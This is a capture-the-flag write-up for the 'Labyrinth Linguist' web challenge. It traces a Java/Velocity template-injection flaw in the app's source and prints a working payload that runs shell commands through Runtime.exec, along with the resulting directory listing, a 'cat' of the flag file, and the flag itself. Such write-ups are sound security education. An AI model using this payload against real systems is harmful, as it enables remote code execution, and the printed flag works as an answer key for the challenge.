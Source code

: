 # Cyber Apocalypse 2024

## Labyrinth Linguist

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.
> 
> Author: Lean
> 
> [`web_labyrinth_linguist.zip`](web_labyrinth_linguist.zip)

Tags: _web_

## Solution
The provided webapp lets us translate a english text to `voxalith`. Interesting... Lets see how this is implemented.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Labyrinth Linguist 🌐</title>
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <form class="fire-form" action="" method="post">
        <span class="fire-form-text">Enter text to translate english to voxalith!</span><br><br>
        <input class="fire-form-input" type="text" name="text" value="">
        <input class="fire-form-button" type="submit" value="Submit →">
    </form>
    <h2 class="fire">TEXT</h2>
</body>
</html>
```

```java
@RequestMapping("/")
@ResponseBody
String index(@RequestParam(required = false, name = "text") String textString) {
    if (textString == null) {
            textString = "Example text";
    }

    String template = "";

    try {
        template = readFileToString("/app/src/main/resources/templates/index.html", textString);
    } catch (IOException e) {
        e.printStackTrace();
    }

    RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    StringReader reader = new StringReader(template);

    org.apache.velocity.Template t = new org.apache.velocity.Template();
    t.setRuntimeServices(runtimeServices);
    try {

            t.setData(runtimeServices.parse(reader, "home"));
            t.initDocument();
            VelocityContext context = new VelocityContext();
            context.put("name", "World");

            StringWriter writer = new StringWriter();
            t.merge(context, writer);
            template = writer.toString();

    } catch (ParseException e) {
            e.printStackTrace();
    }

    return template;
}

public static String readFileToString(String filePath, String replacement) throws IOException {
    StringBuilder content = new StringBuilder();
    BufferedReader bufferedReader = null;

    try {
        bufferedReader = new BufferedReader(new FileReader(filePath));
        String line;

        while ((line = bufferedReader.readLine()) != null) {
            line = line.replace("TEXT", replacement);
            content.append(line);
            content.append("\n");
        }
    } finally {
        if (bufferedReader != null) {
            try {
                bufferedReader.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    return content.toString();
}
```

We can see our template html is read and the word `TEXT` is replaced with our input. Then the page is rendered with [`Velocity`](https://velocity.apache.org/). Knowing the template engine in use we can do some research for potential `SSTI` options.

```java
#set($str="")
#set($string=$str.getClass().forName("java.lang.String"))
#set($char=$str.getClass().forName("java.lang.Character")) #set($ex=$str.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("ls /"))
$ex.waitFor()
#set($out = $ex.getInputStream())
#foreach($i in [1..$out.available()])$string.valueOf($char.toChars($out.read()))#end
```

Perfect, this gives us the listing of the root directory.

```bash
, 0 app
bin
boot
dev
entrypoint.sh
etc
flag6be55db8d2.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Now we know the name of the flag we can adapt the command in the previous payload from `ls /` to `cat /flag6be55db8d2.txt` to get the flag.

Flag `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`